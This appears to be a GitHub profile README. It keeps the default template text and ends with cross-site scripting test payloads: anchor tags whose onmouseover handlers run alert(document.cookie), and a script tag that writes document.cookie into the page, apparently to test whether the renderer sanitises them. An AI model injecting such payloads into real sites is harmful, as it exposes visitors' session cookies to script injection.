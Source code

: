 - 👋 Hi, I’m @p0c0ng
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
p0c0ng/p0c0ng is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
<a onmouseover="alert(document.cookie)">My Test Attack Cookie</a>  <a onmouseover="alert(document.cookie)">My Test Attack domain</a> <a onmouseover="alert(document.cookie)">My Test Attack location</a> <script> document.write(document.cookie) </script>
